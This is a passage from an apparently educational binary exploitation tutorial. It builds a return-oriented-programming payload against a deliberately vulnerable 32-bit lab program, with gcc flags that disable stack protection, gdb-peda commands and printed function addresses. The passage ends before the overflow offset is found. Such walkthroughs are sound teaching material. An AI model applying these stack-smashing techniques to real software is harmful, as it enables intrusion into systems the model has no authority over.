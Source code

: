 ### Payload

Based on the above graphic and stack understanding so far, our payload should look something like this:

```
payload = AAAAs... + BBBB + &rop1 + &rop2 + &rop3 + &exit
```

...or for easier cross-reference - using the same colours as those seen in the above stack layout diagram:

![Payload structure visualized](<../../../.gitbook/assets/image (969).png>)

Let's find out the values we need to populate our payload with. Compile our vulnerable program `rop1a`:

```python
gcc -m32 -fno-stack-protector -z execstack rop1a.c -o rop1a
```

Start debugging it with [gdb-peda](https://github.com/longld/peda) and put a breakpoint on `main()` and continue execution:

```python
gdb rop1a
b main
c
```

Now, let's find out addresses for our functions `rop1`, `rop2`, `rop3` and `exit`:

```csharp
gdb-peda$ p rop1
$1 = {<text variable, no debug info>} 0x565561a9 <rop1>

gdb-peda$ p rop2
$2 = {<text variable, no debug info>} 0x565561d4 <rop2>

gdb-peda$ p rop3
$3 = {<text variable, no debug info>} 0x565561ff <rop3>

gdb-peda$ p exit
$4 = {<text variable, no debug info>} 0xf7e02950 <exit>
```

Below shows the function addresses in gdb:

![Key function addresses to be used in the payload](<../../../.gitbook/assets/image (919).png>)

Having found the function addreses, our payload visualization can now be updated like this:

![Payload structure with ROP function addresses](<../../../.gitbook/assets/image (967).png>)

The last thing we need to know is how many AAAAs we must send in to the `vulnerable` program before we can take over the EIP and overwrite the return address of the `vulnerable` function and point it to our first ROP chain function - `rop1`.
